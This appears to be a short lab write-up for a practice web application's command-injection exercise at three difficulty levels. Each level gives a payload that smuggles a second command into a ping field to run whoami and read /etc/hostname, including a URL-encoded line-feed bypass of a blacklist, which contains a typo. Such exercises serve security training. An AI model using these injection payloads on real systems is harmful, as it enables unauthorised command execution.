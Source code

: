 # Command Injection

Objective

Remotely, find out the user of the web service on the OS, as well as the
machines hostname via RCE.

## low

We can use a semicolon to insert another command.

```sh
>/dev/null;echo `whoami` `cat /etc/hostname`
```

> www-data
> 19c9651ab277

## medium

Semicolons and '&&' are forbiddened, so we fail the ping by using '||' instead.

```sh
>/dev/null||echo `whoami` `cat /etc/hostname`
```

## high

We have to bypass a nicely crafted blacklist.
Notice that filter in this level uses `trim()` to remove leading and trailing 
spaces, so a line-feed in the middle could easily split the commands.

```sh
>/dev/null\nwhoami\ncat /etc/hostname
ip=%3E%2Fdev%2Fnull%0Awhomai%0Acat%20%2Fetc%2Fhostname&Submit=Submit
```
